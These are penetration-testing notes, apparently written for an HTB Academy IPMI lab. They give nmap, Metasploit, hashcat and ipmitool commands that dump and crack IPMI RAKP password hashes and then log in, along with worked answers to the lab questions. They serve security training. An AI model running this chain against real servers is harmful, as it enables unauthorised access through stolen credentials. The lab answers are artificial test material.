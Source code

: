 ## Vulnerability Assessment

### IPMI 2.0 RAKP Authentication Bypass
```bash
# Test for RAKP vulnerability
nmap -sU -p623 --script ipmi-cipher-zero target

# If vulnerable, extract password hashes
use auxiliary/scanner/ipmi/ipmi_dumphashes
set RHOSTS target
run

# Hash cracking
hashcat -m 7300 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

### Common IPMI Vulnerabilities
1. **CVE-2013-4786**: IPMI 2.0 RAKP authentication bypass
2. **Default Credentials**: Factory default passwords
3. **Weak Authentication**: Insufficient authentication mechanisms
4. **Network Exposure**: IPMI accessible from untrusted networks

## Practical Examples

### HTB Academy Style Enumeration
```bash
# Step 1: Service detection
nmap -sU -p623 --script ipmi-version target

# Step 2: Check for cipher zero vulnerability
nmap -sU -p623 --script ipmi-cipher-zero target

# Step 3: Extract hashes if vulnerable
use auxiliary/scanner/ipmi/ipmi_dumphashes
set RHOSTS target
run

# Step 4: Crack extracted hashes
hashcat -m 7300 ipmi_hashes.txt /usr/share/wordlists/rockyou.txt

# Step 5: Access system with cracked credentials
ipmitool -I lanplus -H target -U admin -P cracked_password chassis status
```

### HTB Academy Lab Questions Examples
```bash
# Question 1: "What is the IPMI version running on the remote host?"
nmap -sU -p623 --script ipmi-version target
# Look for: IPMI-2.0
# Answer: 2.0

# Question 2: "What is the default username configured?"
# After gaining access:
ipmitool -I lanplus -H target -U admin -P admin user list
# Look for: admin (User ID: 2)
# Answer: admin

# Question 3: "Extract and crack the administrator password hash"
# Use Metasploit to extract hashes
use auxiliary/scanner/ipmi/ipmi_dumphashes
set RHOSTS target
run
```